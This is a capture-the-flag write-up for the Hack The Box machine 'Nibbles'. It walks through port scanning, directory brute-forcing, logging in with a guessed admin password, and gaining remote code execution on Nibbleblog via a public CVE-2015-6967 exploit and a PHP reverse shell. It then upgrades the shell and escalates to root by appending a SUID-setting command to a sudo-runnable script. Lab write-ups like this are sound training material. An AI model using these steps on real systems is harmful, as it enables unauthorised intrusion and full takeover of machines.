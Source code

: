 ```yaml
---
title: "HTB Nibbles"
date: 2022-12-18T18:22:03-05:00
draft: false
---
```


#### Initial nmap
```bash
sudo nmap -p- -T5 $IP

Nmap scan report for 10.129.30.217
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

#### Concentrated nmap

```bash
sudo nmap -p 22,80 -A -T5 $IP

Nmap scan report for 10.129.30.217
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   42.51 ms 10.10.14.1
2   42.63 ms 10.129.30.217
```

#### Port 80 - 

It looks like a static webpage

{{< image src="/static/static_page.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Since there are only two ports open I will run gobuster and see if I can find any directories that may be on the site.

{{< image src="/static/gobuster_1.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

No luck with directory brute-forcing, but if I check the source of the webpage we get a bit of a hint.

{{< image src="/static/view_source.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

If i navigate to the webpage `http://$IP/nibbleblog/` it looks like a blog page.

{{< image src="/static/nibbles_blog.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Using gobuster we can look for subdirectories inside /nibbleblog/ 

{{< image src="/static/gobuster_2.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Navigating to the readme file at `http://$IP/nibbleblog/README`

we can see the version the blog is running

{{< image src="/static/nibbles_version.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

After doing some research on google, I found there is a RCE on this version of nibbleblog, but we need to be authenticated. 

I will try default credentials i.e. `admin:admin` etc.

after doing this for a bit I tried `admin:nibbles` and it was successful! Now we can move forward with the RCE.

#### RCE - 

I will be using this script from github (https://github.com/dix0nym/CVE-2015-6967) combined with the php reverse shell which can be found here (https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

when you setup the php reverse shell be sure to edit the file and add your IP & port that you will be listening on.

{{< image src="/static/php_revshell.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Once finished you can proceed with these steps

```bash
git clone https://github.com/dix0nym/CVE-2015-6967.git
```

```bash
chmod +x exploit.py
```

```bash
python3 exploit.py --url http://10.129.30.217/nibbleblog/ --username admin --password nibbles --payload shell.php
```

After running the script check your reverse shell and you should see the following - 

{{< image src="/static/nc_shell.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Upgrading our shell (make the reverse shell more stable)

```bash
which python3

/usr/bin/python3
```

Great, we can use python3 to upgrade our shell

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

after running you should see this - 

{{< image src="/static/shell_upgrade1.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Now we can make it even better with the following - 

```
ctrl+z (this will drop you into your host/vm terminal)
```

When in your host shell 

```bash
stty raw -echo ; fg (Hit enter, nothing will happen, but hit enter again and you will be back into the shell as nibbler@Nibbles)
```

{{< image src="/static/shell_upgrade2.png" alt="Error100" position="center" style="border-radius: 8px;" >}}

Next we can export TERM 

```bash 
export TERM=xterm-256color
```

#### PrivEsc

As the user nibbler we can run a script using sudo 

{{< image src="/static/sudo_privs.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

the files are zipped up but we can fix that.

```bash
unzip personal.zip
```

```bash
cd personal/stuff
```

```bash
ls -la 

drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

We can write to this file, so lets add something we can abuse to gain root access!

```bash
echo "chmod +s /bin/bash" >> monitor.sh
```

execute the script as sudo 

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

this should set the bash binary to has a SUID bit set this will allow us to execute bash as root. We can do this with the following command.

```bash
bash -p
```

After running that you should see this - 

{{< image src="/static/suid_abuse.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

and if you run whoami it will say `root`

you can gather the flags from the user & root directory.


